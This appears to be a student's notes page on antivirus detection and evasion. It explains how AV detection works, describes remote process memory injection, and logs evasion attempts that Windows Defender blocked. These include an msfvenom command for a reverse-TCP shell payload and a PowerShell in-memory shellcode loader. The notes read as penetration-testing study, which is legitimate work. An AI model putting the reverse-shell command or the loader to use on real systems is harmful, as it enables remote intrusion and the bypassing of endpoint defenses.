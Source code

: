 
## Background
Antivirus (AV) is a vital application designed to proactively prevent, detect, and eradicate malicious software. Originally, its primary purpose was to combat computer viruses, but its capabilities have expanded to address a wide range of digital threats.

## Examples of Antivirus (AV) Software
1. Windows Defender (Microsoft Defender)
2. McAfee Antivirus
3. Norton Antivirus

## Detection Methods
AV software utilizes various sophisticated detection techniques to identify and neutralize threats effectively:

1. Signature-based Detection: This method involves scanning the filesystem for known malware signatures. If any malicious patterns are detected, the AV software takes appropriate actions.

2. Heuristic-based Detection: Employing advanced algorithms and rules, this approach assesses whether specific actions in a program are deemed malicious. It often entails stepping through the instruction set of a binary file, attempting to disassemble the machine code, and ultimately decompiling and analyzing the source code to gain a comprehensive understanding of the program.

3. Behavioral Detection: AV software executes the suspicious file in an emulated environment, such as a small virtual machine, and observes its behaviors or actions. Any actions considered malicious trigger a response from the AV to contain or remove the threat.

4. Machine Learning Detection: By integrating Machine Learning (ML) algorithms, AV software can detect previously unknown threats by collecting and analyzing additional metadata. This approach enhances the AV's ability to stay ahead of emerging threats.

By combining these powerful detection methods, antivirus applications are constantly updated and refined to safeguard computers and users from the ever-evolving landscape of cybersecurity threats.

## In Memory Evasion
In-Memory Injections, also known as PE Injection, is a popular technique used to bypass antivirus products on Windows machines.
## Remote Process Memory Injection
Remote Process Memory Injection,  attempts to inject the payload into another valid PE that is not malicious.
Use `OpenProcess` function to obtain a valid `HANDLE5` to a target process that we have permission to access. After obtaining the `HANDLE`, we would allocate memory in the context of that process by calling a Windows API such as VirtualAllocEx.6 Once the memory has been allocated in the remote process, we would copy the malicious payload to the newly allocated memory using WriteProcessMemory.7 

# Unsuccessful
1. Powershell Invoke-Stealth. (Caught by Windows Defender) https://github.com/JoelGMSec/Invoke-Stealth
  ![](/assets/Project/Invoke.png)

  Techniques that were utilized in the script:
  Techniques:
       · Chameleon: Substitute strings and concatenate variables
       · BetterXencrypt: Compresses and encrypts with random iterations
       · PyFuscation: Obfuscate functions, variables and parameters
       · ReverseB64: Encode with base64 and reverse it to avoid detections
       · PSObfuscation: Convert content to bytes and encode with Gzip
    However, this was blocked in Windows Defender.
  ![](/assets/Project/Invoke.png)

2. ScareCrow (Caught by Window Defender) https://github.com/optiv/ScareCrow 


3. Powershell Remote Process memory Injection (Caught by Windows Defender)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
```
```bash
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };

```
This was also blocked by Windows Defender.
## Weaponization

## Reference
- Read team playbook, Offensive Security